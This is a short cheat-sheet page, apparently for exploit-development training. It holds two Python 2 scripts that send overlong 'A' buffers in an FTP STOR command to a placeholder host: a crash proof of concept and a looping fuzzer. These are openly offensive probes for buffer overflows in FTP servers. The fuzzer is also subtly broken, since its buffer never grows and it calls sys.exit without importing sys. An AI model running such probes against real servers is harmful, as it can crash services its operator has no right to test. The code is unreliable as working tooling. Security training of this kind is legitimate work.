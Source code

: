 
PROOF OF CONCEPT (POC)
----------------------
{: .-two-column}

### Example Connection FTP POC [poc-test.py]
```python
#!/usr/bin/python
import sys
import socket
import time
from struct import *

rhost = 'x.x.x.x'
port = 21

buffer = "A" * 100
buffer +='\r\n'
try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((rhost, port))
        print s.recv(2048)
        s.send('USER 0xffff\r\n')
        print s.recv(2048)
        s.send('PASS sec4us\r\n')
        print s.recv(2048)
        s.send('STOR ' + buffer)
        print s.recv(2048)
        s.close()
        print "Sent Buffer of %s bytes" %len(buffer)
except socket.error as error:
        s.close()
        print error
```

### Simple Connection FTP POC Fuzzer [fuzzer.py]
```python
#!/usr/bin/python

import socket, time

remoteip="x.x.x.x"
port=21

size=100
buffer = "A" * size
while True:

    print "Fuzzing with %s bytes" % len(buffer)
    s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    try:
        s.connect((remoteip, port))
    except:
        print ("[-] Connection error!")
        sys.exit(1)

    print s.recv(1024)
    print "Sending username..."
    s.send('USER anonymous\r\n')
    print s.recv(1024)
    print "Sending pass..."
    s.send('PASS 0xffff@sec4us.com.br\r\n')
    print s.recv(1024)
    s.send('STOR ' + buffer +'\r\n')
```